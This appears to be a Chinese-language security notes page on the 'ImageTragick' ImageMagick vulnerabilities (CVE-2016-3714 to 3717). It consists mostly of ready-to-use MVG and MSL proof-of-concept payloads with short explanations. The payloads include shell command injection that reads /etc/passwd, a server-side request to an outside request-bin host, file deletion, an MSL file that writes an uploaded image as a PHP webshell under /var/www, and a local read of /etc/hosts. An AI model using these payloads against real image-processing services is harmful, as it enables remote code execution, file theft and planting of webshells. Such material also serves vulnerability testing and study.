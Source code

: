 ## 魔图漏洞
**CVE-2016-3714**
（The (1) EPHEMERAL, (2) HTTPS, (3) MVG, (4) MSL, (5) TEXT, (6) SHOW, (7) WIN, and (8) PLT coders in ImageMagick before 6.9.3-10 and 7.x before 7.0.1-1 allow remote attackers to execute arbitrary code via shell metacharacters in a crafted image, aka "ImageTragick."）

参考：
	- https://github.com/ImageTragick/PoCs
	- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
	- https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.zh-cn.md

poc:
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```


**CVE-2016-3718**
poc.jpg
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://enav06y2ix9ic.x.pipedream.net)'
pop graphic-context
```

**CVE-2016-3715**
poc.jpg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/success'
popgraphic-context
```

下面这2个，3716没有复现成功，3717没有回显，就没有复现了

**CVE-2016-3716**
利用ImageMagick支持的msl协议，来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。特别说明的是，msl协议是读取一个msl格式的xml文件，并根据其内容执行一些操作：

file_move.mvg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context
```
/tmp/msl.txt
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>
```

**CVE-2016-3717**
可以造成本地文件读取漏洞
poc.jpg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/hosts'
pop graphic-context
```